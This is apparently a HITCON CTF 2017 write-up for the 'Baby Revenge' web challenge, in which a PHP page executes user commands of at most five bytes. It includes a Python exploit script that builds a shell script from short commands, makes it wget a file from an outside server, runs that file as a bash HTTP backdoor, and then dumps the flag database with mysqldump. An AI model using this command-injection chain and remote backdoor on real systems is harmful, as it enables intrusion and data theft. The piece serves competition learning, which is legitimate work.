 ```yaml
---
title: Hitcon CTF 2017 - Baby Revenge
date: '2017-11-06'
lastmod: '2019-04-07T13:46:27+02:00'
categories:
- ctf_hitcon2017
- writeup
- hitcon2017
tags:
- web
authors:
- andreafioraldi
---
```


The page's code is:

```php
<?php
    $sandbox = '/home/andrea/Desktop/fff/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
	highlight_file(__FILE__);
```

You can execute a shell command but you have only 5 bytes.

My idea is to use the 'ls' output to write in a file and execute it.

The target file is '\\' so it does not affect the shell script semantics.

The procedure is:
* create a file
* redirect ls output to '\\'
* remove the file.

I want to write 'wget myserver.com' in this way, and after execute it.

In myserver i have a bash http backdoor, so after downloading it i want to execute it.

```python
import requests
import progressbar

#obfuscated code using ls (max 5 byte each command)
#'wget tuly.pythonanywhere.com; sh index.html'
code = """
>IFS\
ls>>\
rm I*
>=:
ls>>\
rm =:
>a=\
ls>>\
rm a*
>wg\
ls>>\
rm w*
>et:\
ls>>\
rm e*
>tul\
ls>>\
rm t*
>y.\
ls>>\
rm y*
>pyt\
ls>>\
rm p*
>hon\
ls>>\
rm h*
>any\
ls>>\
rm a*
>whe\
ls>>\
rm w*
>re.\
ls>>\
rm r*
>com
ls>>\
rm c*
>b=\
ls>>\
rm b*
>mv:\
ls>>\
rm m*
>ind\
ls>>\
rm i*
>ex.\
ls>>\
rm e*
>ht\
ls>>\
rm h*
>ml:\
ls>>\
rm m*
>p
ls>>\
rm p*
>\$a
>\$b
ls>>\
"""

url = "http://52.199.204.34/"

lines = code.split("\n")

print "Writing downloader..."
with progressbar.ProgressBar(max_value=len(lines)) as bar:
    for i in xrange(len(lines)):
        l = lines[i].rstrip()
        if l == "":
            continue
        requests.get(url + "?cmd=" + l)
        bar.update(i)

print "Executing downloader..."
requests.get(url + "?cmd=sh \\")

print "Executing backdoor..."
requests.get(url + "?cmd=sh p")
```

In the home directory of the system we found that the flag is in the MySQL db 

Having a polling backdoor we needed to use one command to exfiltrate the flag from the DB, so we used something like this:
`mysqldump -u user -p'password' flagdb`
Now, there was some issues we faced:
* A lock made our dump query fail
* The database contained chinese characters that as well made our dump query fail
With this in mind we rewrote our query to something like this
`mysqldump -u user -p'password' flagdb --single-transaction --compatible-charset`
